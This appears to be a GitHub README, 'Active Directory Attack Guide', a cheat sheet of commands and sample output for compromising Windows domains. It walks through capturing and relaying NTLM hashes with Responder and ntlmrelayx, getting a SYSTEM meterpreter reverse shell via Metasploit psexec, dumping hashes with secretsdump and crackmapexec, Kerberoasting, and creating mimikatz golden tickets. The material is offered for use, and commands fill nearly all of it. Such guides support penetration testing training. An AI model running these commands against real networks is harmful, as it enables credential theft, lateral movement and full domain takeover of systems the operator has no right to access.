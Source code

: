 ## Active Directory Attack Guide.

#### Capture `NTLMv2` Hashes with `Responder`
```
> sudo responder -I eth0 - rdwv
```
#### Crack the Hash with `Hashcat`
```
> hashcat -m 5600 hash rockyou.txt
--help:
MODE | 5600 | NetNTLMv2 | Network Protocol
```

#### Edit the Responder Config File for `SMB Relay Attack`
```
> nano /etc/responder/responder.conf

; Servers to start
SQL = On
SMB = Off
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On
LDAP = On
DCERPC = On
WINRM = On
```

#### Running `Responder`
```
> sudo responder -I eth0 - rdwv
```
#### Starting `NTLMrelayx` part of Impacket Tools
```
> ntlmrelayx.py -tf targets.txt -smb2support -i 
--help:
-i -- intercative
-e -- execute payload (test.exe) (Creating a payload with msfvenom)
-c -- run a command (whoami)

[*] Servers started, waiting for connections
[*] SMBD-Thread-4: Connection from DOMAIN/user@192.168.164.141 controlled, attacking target smb://192.168.164.142
[*] Authenticating against smb://192.168.164.142 as DOMAIN/USER SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
[*] SMBD-Thread-4: Connection from DOMAIN/USER@192.168.164.141 controlled, but there are no more targets left!
[-] SMB SessionError: STATUS_NO_SUCH_FILE({File Not Found} The file %hs does not exist.)

```

#### `Netcat` Listener on localhost
```
> nc 127.0.0.1 11000
Type help for list of commands
# shares
ADMIN$
C$
IPC$
Share
```
#### Exploiting the Target with `Metasploit`

```
> msfconsole

use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                192.168.164.141  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wi
                                                    ki/Using-Metasploit
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBDomain             DOMAIN.local     no        The Windows domain to use for authentication
   SMBPass               pass_123         no        The password for the specified username
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a norma
                                                    l read/write folder share
   SMBUser               user             no        The username to authenticate as


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.164.137  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp

msf6 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 192.168.164.137:4444
[*] 192.168.164.141:445 - Connecting to the server...
[*] 192.168.164.141:445 - Authenticating to 192.168.164.141:445|marvel.local as user 'user'...
[*] 192.168.164.141:445 - Selecting PowerShell target
[*] 192.168.164.141:445 - Executing the payload...
[+] 192.168.164.141:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (200262 bytes) to 192.168.164.141
[*] Meterpreter session 1 opened (192.168.164.137:4444 -> 192.168.164.141:58863 ) at 2022-01-12 22:38:10 +0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
#### Enumeration with `PowerView.ps1`
```
> powershell -ep bypass

> . .\PowerView.ps1

> Get-NetDomain

> Get-NetDomainController

> Get-DomainPolicy
	> (Get-DomainPolicy)."system access"
		
> Get-NetUser (select = grep in Linux)
	> Get-NetUser | select description
	> Get-NetUser | select samaccountname
	> Get-NetUser | select cn
		
> Get-UserProperty
	> Get-UserProperty -Properties pwdlastset
		
> Get-NetComputer (select = grep in Linux)
	> Get-NetComputer | select cn
	> Get-NetComputer | select operatingSystem
		
> Get-NetGroup
	> Get-NetGroup -Identity *admin*
		
> Get-NetGroupMember -Identity "Domain Admins"

> Invoke-ShareFinder

> Get-NetGPO | select displayname, whenchange      
```

### Note: ```NTLM``` hash can be passed but not ```NTLMv2```

#### Pass the Hash with `Crackmapexec`

```
> crackmapexec smb 192.168.164.0/24 -u user -d DOMAIN.local -p password

. DumpHashes
> crackmapexec smb 192.168.164.0/24 -u user -d DOMAIN.local -p password --sam

> crackmapexec smb 192.168.164.0/24 -u "Full Name" -H HASH --local-auth

```
#### Enumeration with `lookupsid.py` (searching for users SID)
```
. anonymous login must be enabled.
> lookupsid.py anonymous@192.168.1.1 | tee users.txt
```

#### Dumping Hash with `Secretsdump.py`
```
> secretsdump.py domain/user:password@192.168.164.141
```
#### Getting a Shell with `PsExec.py` (LMHASH:NTHASH)
```
> psexec.py "username":@192.168.164.141 -hashes LMHASH:NTHASH
> psexec.py DOMAIN.local/Administrator:'password'@192.168.164.141 (character-escaping with '')
```
#### Token Impersonation with `Incognito` (Metasploit)
Note: Impersonation works with Logged in Users, Token is valid till the PC is Rebooted.

 * Delegate Token - Login or RDP Sessions
```
meterpreter > load incognito

meterpreter > list_tokens -u

meterpreter > impersonate_token domain\\user

meterpreter > shell

C:\Windows\system32>whoami

meterpreter > rev2self (revert back to user we gained shell as)
```	
#### Dumping Hashes with `GetUserSPNs.py` (`Kerberoasting`)
```
> GetUserSPNs.py DOMAIN.local/user:password -dc-ip (DC-ip-addr) -request

> GetNPUsers.py DOMAIN.local/ -usersfile users.txt -no-pass -dc-ip 192.168.1.1
```

#### Cracking `Kerberos` hash with `Hashcat`
```
> hashcat -m 13100 kerberos-hash.txt rockyou.txt
MODE | 13100 | Kerberos 5, etype 23, TGS-REP | Network Protocol
```
#### Post-Exploitation with Mimikatz
```
> . .\mimikatz.exe
  privilege::debug [privilege "20" ok]
  
. Dump the hash and security identifier of the Kerberos Ticket Granting Ticket account
> lsadump::lsa /inject /name:krbtgt 

. Create a Golden Ticket
> kerberos::golden /user: /domain: /sid: /krbtgt: /id:

. Dump NTLM hashes
> lsadump::lsa /patch

. Cracking NTLM hash with John the Ripper and Hashcat
> john --format=NT hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
> hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```
#### Gaining Shell with Evil-Winrm
```
Ports:
5985/tcp (HTTP)
5986/tcp (HTTPS)

> evil-winrm -i 192.168.1.1 -u username -p "password"
> evil-winrm -i 192.168.1.1 -u username -H "hash"
```


